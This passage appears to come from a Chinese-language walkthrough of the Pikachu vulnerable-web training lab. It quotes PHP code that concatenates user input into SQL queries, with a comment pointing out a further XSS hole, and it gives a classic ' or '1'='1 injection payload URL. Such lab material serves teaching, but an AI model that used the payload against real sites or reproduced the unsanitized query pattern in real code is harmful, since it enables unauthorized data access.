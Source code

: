 ```php
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在，请重新输入！</p>";
    }
}
```

**漏洞利用**

构造 payload

`http://<IP address!!!>/pikachu/vul/sqli/sqli_str.php?name=1' or '1' ='1&submit=%E6%9F%A5%E8%AF%A2`

![image](../../../img/渗透/实验/pikachu/28.png)

### 搜索型注入
**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['name']!=null){

    //这里没有做任何处理，直接拼到select里面去了
    $name=$_GET['name'];

    //这里的变量是模糊匹配，需要考虑闭合
    $query="select username,id,email from member where username like '%$name%'";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        //彩蛋:这里还有个xss
        $html2.="<p class='notice'>用户名中含有{$_GET['name']}的结果如下：<br />";
        while($data=mysqli_fetch_assoc($result)){
            $uname=$data['username'];
            $id=$data['id'];
            $email=$data['email'];
            $html1.="<p class='notice'>username：{$uname}<br />uid:{$id} <br />email is: {$email}</p>";
        }
```